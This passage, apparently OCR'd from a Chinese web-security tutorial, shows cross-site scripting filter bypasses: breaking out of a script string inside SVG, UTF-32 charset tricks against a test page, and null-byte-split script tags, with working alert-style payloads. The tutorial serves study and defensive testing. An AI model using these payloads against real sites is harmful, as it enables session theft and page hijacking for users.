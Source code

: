```
<svg><script>varmyvar="YourInput";</script></svg>

```

YourInput可控，输入

```
www.site.com/test.php?var=text";alert(1)//

```

如果把"编码一些他仍然能够执行:

```
<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>

```

### 浏览器bug

字符集的bug在IE中出现过很多次，第一个就是UTF-7，但是这个只在之前的版本中可用，现在讨论一个在现在的浏览器当中可以执行的javascript。

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS

```

这个页面当中我们可控当前页面的字符集，当我们常规的测试时：

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v="><img src=x onerror=prompt(0);>

```

返回结果可以看到双引号被编码了：

```
<html>
<meta charset="utf-8"></meta>
<body>
<input type="text" value="&quot;&gt;&lt;img src=x onerror=prompt(0);&gt;"></input>
</body>
</html> 

```

设置字符集为UTF-32：

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80

```

上面这个在IE9及以下版本可以执行成功。

利用0字节绕过：

```
<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>

```
